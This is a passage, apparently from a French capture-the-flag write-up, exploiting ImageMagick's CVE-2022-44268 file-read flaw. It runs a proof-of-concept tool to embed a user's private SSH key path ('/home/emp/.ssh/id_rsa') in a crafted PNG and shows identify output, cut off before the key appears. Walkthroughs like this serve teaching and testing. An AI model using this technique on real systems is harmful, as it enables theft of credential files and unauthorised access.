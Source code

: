Mais on voit notamment cette ligne : `emp:x:1000:1000::/home/emp:/bin/bash`

Et si on a bien observé la CVE, ça nous parlait du fait que on peut avoir les clés ssh privées et publique comme ceci (presque de la même façon qu'avant):

```bash
└─$ cargo run "/home/emp/.ssh/id_rsa"
    Finished `dev` profile [unoptimized + debuginfo] target(s) in 0.03s
     Running `target/debug/cve-2022-44268 /home/emp/.ssh/id_rsa`
```

```bash
└─$ identify -verbose final_ssh.png 
Image:
  Filename: final_ssh.png
  Permissions: rw-rw-r--
  Format: PNG (Portable Network Graphics)
  Mime type: image/png
  Class: PseudoClass
  Geometry: 150x150+0+0
  Units: Undefined
  Colorspace: sRGB
  Type: Palette
  Endianness: Undefined
  Depth: 1/8-bit
  Channels: 4.0
  Channel depth:
    Red: 1-bit
    Green: 1-bit
    Blue: 1-bit
  Channel statistics:
    Pixels: 22500
    Red:
      min: 1  (1)
      max: 1 (1)
      mean: 1 (1)
      median: 1 (1)
      standard deviation: 0 (0)
      kurtosis: 0
      skewness: 0
      entropy: 0
    Green:
      min: 0  (0)
      max: 0 (0)
      mean: 0 (0)
      median: 0 (0)
      standard deviation: 0 (0)
      kurtosis: 0
      skewness: 0
      entropy: 0
    Blue:
      min: 0  (0)
      max: 0 (0)
      mean: 0 (0)
      median: 0 (0)
      standard deviation: 0 (0)
      kurtosis: 0
      skewness: 0
      entropy: 0
  Image statistics:
    Overall:
      min: 0  (0)
      max: 1 (1)
      mean: 0.333333 (0.333333)
      median: 0.333333 (0.333333)
```